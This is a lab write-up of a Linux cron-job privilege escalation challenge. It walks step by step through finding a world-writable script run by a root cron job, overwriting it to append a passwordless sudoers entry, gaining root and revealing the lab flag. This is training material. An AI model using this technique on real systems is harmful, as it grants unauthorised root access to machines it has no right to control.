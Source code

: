 # 🔬Cron Jobs

## Lab 1

>  🔬 [Cron Jobs Gone Wild II](https://www.attackdefense.com/challengedetails?cid=77)
>
>  - **Cron Jobs** Privilege escalation
>  - Already logged on as `student` unprivileged user

```bash
whoami
groups student
cat /etc/passwd
crontab -l
```

> 📌 `student` user has no privileges and no scheduled cron jobs

![](linux-attacksassets/image-20230319190830023.png)

```bash
ls -l
	-rw------- 1 root root 26 Sep 23  2018 message
# "message" file has root permissions
```

### Cron Jobs Identify

- Look for all occurences of the path or the file, on the system

```bash
find / -name message
    /home/student/message
	find: '/var/lib/apt/lists/partial': Permission denied
    [...]
    /tmp/message
```

```bash
grep -rnw /usr -e "/home/student/message"
	/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
```

- The file has been copied into the /tmp directory

```bash
cat /tmp/message
	Hey!! you are not root :(
```

- Check `copy.sh` privileges

```bash
ls -al /usr/local/share/copy.sh
	-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
	
cat /usr/local/share/copy.sh
    #! /bin/bash
    cp /home/student/message /tmp/message
    chmod 644 /tmp/message
```

### Privesc

- Every user account has read/write/execute permissions on the `copy.sh` script
- The script is writable by the `student` user. Modify the script to execute a command (`e.g.` a*dding **student** to `sudoers` file*).
  - When the script is executed by `root` cron job (*every 1 min for this lab*), it will run commands with pivileged permissions
  - No text editors available in the lab

```bash
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh

cat /usr/local/share/copy.sh
    #!/bin/bash
    echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```bash
sudo -l

    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
        (root) NOPASSWD: ALL
```

![sudo -l](linux-attacksassets/image-20230319192443704.png)

```bash
sudo su
whoami
	root
cd /root
cat flag
```

```bash
crontab -l
	*/01 * * * * sh /usr/local/share/copy.sh *
```



<details>
<summary>Reveal Flag: 🚩</summary>



`697914df7a07bb9b718c8ed258150164`

![](linux-attacksassets/image-20230319192539065.png)

</details>

------

